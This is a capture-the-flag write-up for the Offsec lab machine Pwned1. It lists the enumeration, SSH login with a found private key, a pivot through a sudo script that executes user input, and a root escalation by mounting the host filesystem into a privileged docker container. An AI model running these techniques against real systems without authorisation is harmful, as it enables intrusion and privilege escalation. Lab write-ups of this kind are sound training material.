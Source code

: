 +++
title = 'Offsec Pwned1'
date = 2024-03-16T12:59:08+01:00
draft = true
categories = ['Offsec', 'Machine', 'Intermediate']
+++

## Enumeration & User

We scan open TCP ports with nmap.

    sudo nmap -vv --reason -Pn -p- -T5 -sVC --version-all -A -oN nmap-result-tcp.txt 192.168.166.95

```
PORT      STATE    SERVICE REASON         VERSION
21/tcp    open     ftp     syn-ack ttl 61 vsftpd 3.0.3
22/tcp    open     ssh     syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 fe:cd:90:19:74:91:ae:f5:64:a8:a5:e8:6f:6e:ef:7e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDaQPyAx8qSGlWyyuL5xu/6lWdbWs6VArMlRC71wt11kYKMGUTuVmPvLAdSAL66haaz0DCvquZMOmeYNHvM7/OjfmkwlIt3Wv53q/23AODRwPGkpj00QCNH/Vqt6Aw94Afo3etyW9SU3vzLC2F3mS18cqXApmV90NIH3d6ayhsDP+aPuQFoFqEzDxzy2RkosueaEERECT0auT+pTIwRMCHBEVX98Srd8+ax1yhWITRTGOYXcdocx0m9tooFUEH/a1P3RK3gBzCL63ZejMN9YofBl8y+CwCt+0nBLg+PtNjjskD9CaBwxUmH0/UM24z9BQecPn3IFmm3+P5U0z1DQEhf
|   256 81:32:93:bd:ed:9b:e7:98:af:25:06:79:5f:de:91:5d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDHWpwgF92XD4REIANL7X9lMcQSwcbhlNqwBvNi8l4SzQn5MjSzlBQzgcC7Kro57lCr0kImH+XdijG+r6lyps70=
|   256 dd:72:74:5d:4d:2d:a3:62:3e:81:af:09:51:e0:14:4a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHPgRt1LF33Ttn5DuGuJJpmgbMd2ofAkqEt6gTOQK+WW
80/tcp    open     http    syn-ack ttl 61 Apache httpd 2.4.38 ((Debian))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Pwned....!!
```

Let's visit the http webpage.

![HTTP page](http-page.png)

Not much here. We'll perform content discovery with ffuf.

    ffuf -u http://192.168.166.95/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ac -r -o ffuf-dir.json

We get 2 interesting results.

```
nothing                 [Status: 200, Size: 947, Words: 62, Lines: 17, Duration: 50ms]
                        [Status: 200, Size: 3065, Words: 1523, Lines: 76, Duration: 46ms]
hidden_text             [Status: 200, Size: 954, Words: 65, Lines: 17, Duration: 45ms]
```

Let's check *nothing* first.

![Nothing page](nothing.png)

![Nothing html page](nothing-html.png)

There's nothing there!

On the other hand, *hidden_text* contains an interesting file: *secret.dic*.

![Hidden-text page](hidden-text.png)

Its contents look like a list of paths.

```
/hacked
/vanakam_nanba
/hackerman.gif 
/facebook
/whatsapp
/instagram
/pwned
/pwned.com
/pubg 
/cod
/fortnite
/youtube
/kali.org
/hacked.vuln
/users.vuln
/passwd.vuln
/pwned.vuln
/backup.vuln
/.ssh
/root
/home
```

We'll run another ffuf scan, this time using *secret.dic* as the wordlist.

    ffuf -u http://192.168.166.95/FUZZ -w secret.dic -ac -r -o secret-dic-dir.json

We get 1 result back.

    /pwned.vuln             [Status: 200, Size: 673, Words: 44, Lines: 34, Duration: 50ms]

We visit the */pwned.vuln* page.

![pwned.vuln page](pwned-vuln.png)

There are credentials hidden in the page source. They don't work on the */pwned.vuln* page, however the username sounds like it could work for FTP so we'll try connecting to it.

![ftp connection](ftp-user.png)

We download the files and read *note.txt*.

```

Wow you are here 

ariana won't happy about this note 

sorry ariana :( 


```

We adjust the *id_rsa* permissions.

    chmod 600 id_rsa

We try connecting via SSH using the *id_rsa* key and specifying *ariana* as the username.

    ssh -i id_rsa ariana@192.168.166.95

After a successful connection, we obtain the user flag.

![Ariana user flag](ariana-user-flag.png)

## Pivot to selena via */home/messenger.sh*

We check ariana's sudo permissions.

```
ariana@pwned:~$ sudo -l
Matching Defaults entries for ariana on pwned:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ariana may run the following commands on pwned:
    (selena) NOPASSWD: /home/messenger.sh
```

Ariana is allowed to run */home/messenger.sh* as *selena*, so let's check the file.

```
ariana@pwned:~$ cat /home/messenger.sh 
#!/bin/bash

clear
echo "Welcome to linux.messenger "
                echo ""
users=$(cat /etc/passwd | grep home |  cut -d/ -f 3)
                echo ""
echo "$users"
                echo ""
read -p "Enter username to send message : " name 
                echo ""
read -p "Enter message for $name :" msg
                echo ""
echo "Sending message to $name "

$msg 2> /dev/null

                echo ""
echo "Message sent to $name :) "
                echo ""

```

The script simply runs a message provided by us, so we use it to pivot to *selena* by executing *bash*.

![selena](selena.png)

## Privilege escalation to root via docker

We check what groups *selena* is in.

```
selena@pwned:~$ id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
```

*Selena* can run docker on the machine. We'll use it to escalate to root.
We download ubuntu image locally and save it to *ubuntu.tar*

```
docker image pull ubuntu 
docker save ubuntu > ubuntu.tar 
```

We copy it over to the machine.

```
scp -P 22 -i id_rsa ubuntu.tar ariana@192.168.166.95:/tmp/ubuntu.tar
```

As *selena*, we load *ubuntu.tar* and run it with the *--privileged* flag

```
docker load < ubuntu.tar
docker run --rm -it --pid=host --net=host --privileged -v /:/host ubuntu bash
```

We're now root! We look for the flag.

    find / -iname '*.txt' 2>/dev/null

We find it in */host/root/proof.txt*.

## References
- https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/#docker